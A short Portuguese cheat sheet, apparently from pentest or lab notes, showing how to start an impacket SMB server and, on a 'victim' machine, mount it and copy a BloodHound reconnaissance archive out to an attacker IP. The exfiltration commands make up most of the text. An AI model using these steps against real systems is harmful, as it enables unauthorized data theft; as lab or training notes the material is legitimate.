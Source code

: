 smbserver
========================


transferindo arquivos para uma outra maquina:

    impacket-smbserver smb .
    
    impacket-smbserver -smb2support smb .
    
Com usuário e senha

    impacket-smbserver -username test -password test smb .
    
    impacket-smbserver -smb2support -username test -password test smb .
 
 Na máquina vítima temos que montar ada seguinte maneira:
 
     net use \\10.10.14.17\smb /user:test test
 
 Para transferir os arquivos, basta utilizarmos o comandoo:
 
     copy 20240206162822_BloodHound.zip \\10.10.14.17\smb\sh.zip
